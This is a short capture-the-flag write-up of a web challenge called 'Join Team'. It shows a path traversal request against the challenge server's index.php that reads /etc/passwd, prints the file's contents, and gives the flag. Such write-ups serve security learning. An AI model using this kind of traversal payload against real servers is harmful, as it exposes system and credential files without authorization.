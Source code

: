 ## Join Team
```
Flag safe in the server environment , can you reveal it.
```
- Link: http://18.192.3.151/join-team/

#### Solve:

- Steps

    - Viewing the page source and take a tour, clicking every button we will notice an upload CV form.
    
    - After several tries to bypass the upload form mechanism, I decided to search for another vuln ..
    
    - Tried *../../../../../../../../../../../../../etc/passwd* and it did work !
        ```commandline
        >> http://18.192.3.151/join-team/index.php?../../../../../../../../../../../../../etc/passwd
         root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin Debian-exim:x:101:102::/var/spool/exim4:/usr/sbin/nologin 
        ```
     
> **Flag: {J4V4_Scr1Pt_1S_S0_D4MN_FUN}**
